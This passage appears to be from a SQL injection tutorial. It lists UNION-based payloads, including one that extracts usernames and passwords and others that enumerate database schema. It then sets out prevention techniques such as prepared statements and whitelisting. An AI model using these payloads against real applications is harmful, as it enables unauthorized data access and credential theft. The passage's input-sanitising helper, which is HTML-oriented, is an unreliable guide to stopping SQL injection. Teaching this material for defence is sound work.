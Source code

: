 ### **UNION Attacks**
```sql
' UNION SELECT 1,2,3 --
' UNION SELECT null,username,password FROM users --
' UNION SELECT database(),user(),version() --
```

### **Information Gathering**
```sql
' AND 1=0 UNION SELECT null,table_name FROM information_schema.tables --
' AND 1=0 UNION SELECT null,column_name FROM information_schema.columns WHERE table_name='users' --
```

## 🛡️ **Prevention Techniques**

### **1. Prepared Statements (Recommended)**
```php
$stmt = $pdo->prepare("SELECT * FROM users WHERE email = ?");
$stmt->execute([$email]);
```

### **2. Stored Procedures**
```sql
DELIMITER $$
CREATE PROCEDURE GetUser(IN user_email VARCHAR(100))
BEGIN
    SELECT * FROM users WHERE email = user_email;
END$$
DELIMITER ;
```

### **3. Input Validation**
```php
function validateEmail($email) {
    return filter_var($email, FILTER_VALIDATE_EMAIL);
}

function sanitizeInput($input) {
    return htmlspecialchars(strip_tags(trim($input)));
}
```

### **4. Escaping (Less Secure)**
```php
$email = mysqli_real_escape_string($connection, $email);
```

### **5. Whitelist Validation**
```php
$allowedSortColumns = ['id', 'username', 'email', 'created_at'];
if (!in_array($sortColumn, $allowedSortColumns)) {
    throw new Exception('Invalid sort column');
}
```
